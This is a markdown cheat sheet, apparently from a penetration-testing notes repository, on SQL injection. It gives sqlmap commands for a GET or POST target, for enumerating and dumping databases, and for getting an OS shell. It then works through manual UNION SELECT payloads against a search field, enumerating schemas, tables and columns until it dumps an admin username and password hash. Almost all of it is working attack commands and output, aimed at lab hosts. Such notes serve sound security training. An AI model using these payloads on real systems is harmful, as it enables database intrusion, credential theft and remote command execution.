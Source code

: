 * [`sqlmap`](#sqlmap)
  * [get request](#get-request)
  * [post request](#post-request)
  * [databases](#databases)
  * [tables](#tables)
  * [data](#data)
  * [columns](#columns)
  * [os shell](#os-shell)
* [INFORMATION_SCHEMA](#information_schema)
  * [INFORMATION_SCHEMA Tables](#information_schema-tables)
* [Manual Methods](#manual-methods)
  * [check vulnerability](#check-vulnerability)
  * [enumerate fields of search query](#enumerate-fields-of-search-query)
  * [enumerate databases](#enumerate-databases)
  * [enumerate tables](#enumerate-tables)
  * [enumerate columns](#enumerate-columns)
  * [show data](#show-data)

# `sqlmap`
If we know the DBMS, we can use option `--dbms=mysql`
## get request
```
sqlmap -u "http://example.com/?a=1&b=2&c=3" -p "a,b"
```
## post request
```
sqlmap -u "http://example.com/" --data "a=1&b=2&c=3" -p "a,b" --method POST
```
Alternatively, copy the POST request in the intercept of burpsuite in a file and use it as follows
```
$ cat web.txt
POST /results.php HTTP/1.1
Host: 10.10.10.109
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.109/search.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Connection: close
Upgrade-Insecure-Requests: 1

search=killer
```
```
sqlmap -r web.txt -p "search"
```
## databases
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs 
```
## tables
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --tables -D testdb
```
## data
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dump -D testdb -T users
```
## columns
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D testdb -T users --columns
```
### os shell
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --os-shell
```
# INFORMATION_SCHEMA
Refs:
* <https://www.cmi.ac.in/~madhavan/courses/databases10/mysql-5.0-reference-manual/information-schema.html#schemata-table>

INFORMATION_SCHEMA provides access to database metadata.

Metadata is data about the data, such as the name of a database or table, the data type of a column, or access privileges. INFORMATION_SCHEMA is the information database, the place that stores information about all the other databases that the MySQL server maintains. Inside INFORMATION_SCHEMA there are several read-only tables. They are actually views, not base tables, so there are no files associated with them.
## INFORMATION_SCHEMA Tables
* <https://dev.mysql.com/doc/refman/8.0/en/columns-table.html>
* <https://dev.mysql.com/doc/refman/8.0/en/schemata-table.html>
* <https://dev.mysql.com/doc/refman/8.0/en/st-units-of-measure-table.html>

# Manual Methods
## check vulnerability
```
search=killer' or 1='1
```
## enumerate fields of search query
In burpsuite, go to repeater mode and keep on increasing the numbers till the fields of search query gets printed on the webpage
```
search=killer' UNION SELECT 1,2,3,4,5,6-- -
```
```
<h3>Search results </h3>
ID: 1<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## enumerate databases
### current database
```
search=killer' UNION SELECT database(),2,3,4,5,6-- -
```
```
<h3>Search results </h3> 
ID: Staff<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
### using INFORMATION_SCHEMA
```
search=killer' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
```
<h3>Search results </h3> 
ID: information_schema<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: Staff<br/>Name: 2 3
<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email:
6<br/>
```
### all databases
```
search=killer' UNION SELECT GROUP_CONCAT(SCHEMA_NAME),2,3,4,5,6 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
```
<h3>Search results </h3>
ID: information_schema,Staff,users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## enumerate tables
```
search=killer' UNION SELECT GROUP_CONCAT(TABLE_NAME),2,3,4,5,6 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA="Staff"-- -
```
```
<h3>Search results </h3> 
ID: StaffDetails,Users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## enumerate columns
```
search=killer' UNION SELECT GROUP_CONCAT(COLUMN_NAME),2,3,4,5,6 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA="Staff" AND TABLE_NAME="Users"-- -
```
```
<h3>Search results </h3>
ID: UserID,Username,Password<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## show data
```
search=killer' UNION SELECT GROUP_CONCAT(Username,":",Password),2,3,4,5,6 FROM Staff.Users-- -
```
```
<h3>Search results </h3>
ID: admin:856f5de590ef37314e7c3bdf6f8a66dc<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
